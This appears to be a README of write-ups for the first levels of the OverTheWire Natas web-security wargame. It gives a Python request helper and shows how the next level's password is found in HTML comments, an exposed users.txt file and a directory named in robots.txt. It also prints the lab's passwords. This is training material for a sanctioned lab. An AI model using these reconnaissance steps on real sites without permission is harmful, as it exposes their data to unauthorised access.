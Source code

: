 # Natas

https://overthewire.org/wargames/natas/

> Natas teaches the basics of serverside web-security.

> Each level of natas consists of its own website located at http://natasX.natas.labs.overthewire.org, where X is the level number. There is no SSH login. To access a level, enter the username for that level (e.g. natas0 for level 0) and its password.

> Each level has access to the password of the next level. Your job is to somehow obtain that next password and level up. All passwords are also stored in /etc/natas_webpass/. E.g. the password for natas5 is stored in the file /etc/natas_webpass/natas5 and only readable by natas4 and natas5.

> Start here:

> Username: natas0
> Password: natas0
> URL:      http://natas0.natas.labs.overthewire.org

## NatasX
```python
def natasX(x, pwd, endpoint = ""):
    url = f'http://natas{x}.natas.labs.overthewire.org/{endpoint}'
    username = f"natas{x}"

    r = requests.get(url, auth=(username, pwd))

    print(r.text)
 ```

## Natas0
https://overthewire.org/wargames/natas/natas0.html

> Natas Level 0

> Username: natas0

> Password: natas0

> URL:      http://natas0.natas.labs.overthewire.org

```python
natasX.natasX(0,"natas0")
```

**Output**

```html
<div id="content">
You can find the password for the next level on this page.

<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
</div>
```

## Natas1
https://overthewire.org/wargames/natas/natas1.html

>Natas Level 0 → Level 1

>Username: natas1

>URL:      http://natas1.natas.labs.overthewire.org



```python
natasX.natasX(1,"gtVrDuiDfck831PqWsLEZy5gyDz1clto")
```

**Output**

```html
<body oncontextmenu="javascript:alert('right clicking has been blocked!');return false;">
<h1>natas1</h1>
<div id="content">
You can find the password for the
next level on this page, but rightclicking has been blocked!

<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
</div>
</body>
```

## Natas2
https://overthewire.org/wargames/natas/natas2.html

> Natas Level 1 → Level 2

> Username: natas2

> URL:      http://natas2.natas.labs.overthewire.org

```python
natas = natasX
# natas.natasX(2,"ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi")
natas.natasX(2,"ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi","files/users.txt")
```

**Output**

```txt
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

## Natas3
https://overthewire.org/wargames/natas/natas3.html

> Natas Level 2 → Level 3

> Username: natas3

> URL:      http://natas3.natas.labs.overthewire.org

```python
natas = natasX

# natas.natasX(3,"sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14")
# natas.natasX(3,"sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14", "/robots.txt")
# natas.natasX(3,"sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14", "/s3cr3t/")
natas.natasX(3, "sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14", "/s3cr3t/users.txt")
```

**Output**

```html
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

## Natas4
https://overthewire.org/wargames/natas/natas4.html

> Natas Level 3 → Level 4

> Username: natas4

> URL:      http://natas4.natas.labs.overthewire.org

```python
```

## Natas5
https://overthewire.org/wargames/natas/natas5.html

> Natas Level 4 → Level 5

> Username: natas5

> URL:      http://natas5.natas.labs.overthewire.org

```python
```
